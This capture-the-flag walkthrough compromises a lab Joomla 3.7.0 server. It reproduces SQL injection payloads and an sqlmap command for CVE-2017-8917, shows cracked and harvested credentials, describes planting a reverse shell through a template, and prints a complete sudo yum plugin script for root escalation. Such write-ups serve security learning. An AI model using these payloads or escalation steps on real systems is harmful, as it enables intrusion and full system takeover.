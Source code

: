 ```yaml
---
sticker: emoji//1f577-fe0f
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | STATE | SERVICE |
| :--- | :---- | :------ |
| 22   | open  | ssh     |
| 80   | open  | http    |
| 3306 | open  | mysql   |

We got 3 open ports, let's take a look at the website:

![](cybersecurity/images/Pasted%2520image%252020241121165122.png)

Seems like a simple website, let's try to fuzz in order to find anything, if not, I think that login part is interesting and we could go back to check any vulnerability in it

## FUZZING
---

![](cybersecurity/images/Pasted%2520image%252020241121165255.png)

We found a lot of directories, let's take a look at `/administrator`

![](cybersecurity/images/Pasted%2520image%252020241121170507.png)

Got a login page for admin in this, if we look around the page source, we are able to identify this is `Joomla 3.7.0`


# RECONNAISSANCE
---

![](cybersecurity/images/Pasted%2520image%252020241121170613.png)
Searching up for an exploit related to this version, we find this, a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQL Injection]] vulnerability, let's take a look at the exploit itself:


```
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
    
```

We can either use sqlmap or an exploit developed in python, I used the exploit as it is way more easier to retrieve the data:

```ad-hint

#### Exploit 

[exploit](https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
)

##### Output
---

![](cybersecurity/images/Pasted%2520image%252020241121171916.png)

We got the user `jonah` and a password in a hash formato, let's crack that hash using `john`

hash: `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`


#### John
----

![](cybersecurity/images/Pasted%2520image%252020241121174205.png)

got password `spiderman123`


```

![](cybersecurity/images/Pasted%2520image%252020241121175307.png)

We are inside the panel, let's begin with exploitation to get our reverse shell

# EXPLOITATION
---


Once we are inside the panel, if we go to templates, we see the following:



![](cybersecurity/images/Pasted%2520image%252020241121175454.png)

If we dig up further, we notice we are able to modify the `index.php` in order to put a reverse shell:



![](cybersecurity/images/Pasted%2520image%252020241121175549.png)

Put the reverse shell, set up listener, refresh the page and get the shell:

![](cybersecurity/images/Pasted%2520image%252020241121180244.png)

Once we got our shell, let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize]] it and try to get anything useful:

![](cybersecurity/images/Pasted%2520image%252020241121180409.png)

We have now an stable shell, let's take a look at how many users are in this machine:


![](cybersecurity/images/Pasted%2520image%252020241121180459.png)

Two users, `jjameson` and `root`, we need some sort of way to get jameson's password to switch into that user, if we take a look at previous pictures, we have a `configuration.php` file, let's `cat` on it:


![](cybersecurity/images/Pasted%2520image%252020241121180633.png)

Nice, we found the password, let's switch users:


```ad-note

#### Credentials
---

`jjameson` : `nv5uz9r3ZEDzVjNu` 
```

![](cybersecurity/images/Pasted%2520image%252020241121180958.png)

Nice, we were able to switch users. Let's proceed with privilege escalation


# PRIVILEGE ESCALATION
---


## SUDO -L


If we use `sudo -l` on `jjameson`, we get the following:


![](cybersecurity/images/Pasted%2520image%252020241121181128.png)

We are able to run sudo in `/usr/bin/yum`, if we check what [GTFOBINS](https://gtfobins.github.io/) have for us, we get this:

![](cybersecurity/images/Pasted%2520image%252020241121181231.png)

So, in order to get a root shell, we need to do the following:

```ad-summary

1. `TF=$(mktemp -d)`
2. `cat >$TF/x<<EOF`
3. `[main]`
4. `plugins=1`
5. `pluginpath=$TF`
6. `pluginconfpath=$TF`
7. `EOF`
8. `cat >$TF/y.conf<<EOF`
9. `[main]`
10. `enabled=1`
11. `EOF`
12. `cat >$TF/y.py<<EOF`
13. `import os`
14. `import yum`
15. `from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE`
16. `requires_api_version='2.1'`
17. `def init_hook(conduit):`
18. `  os.execl('/bin/sh','/bin/sh')`
19. `EOF`
20. `sudo yum -c $TF/x --enableplugin=y`

#### PoC
---

![](cybersecurity/images/Pasted%2520image%252020241121181849.png)

Got a shell as root and like that, CTF is over.

```


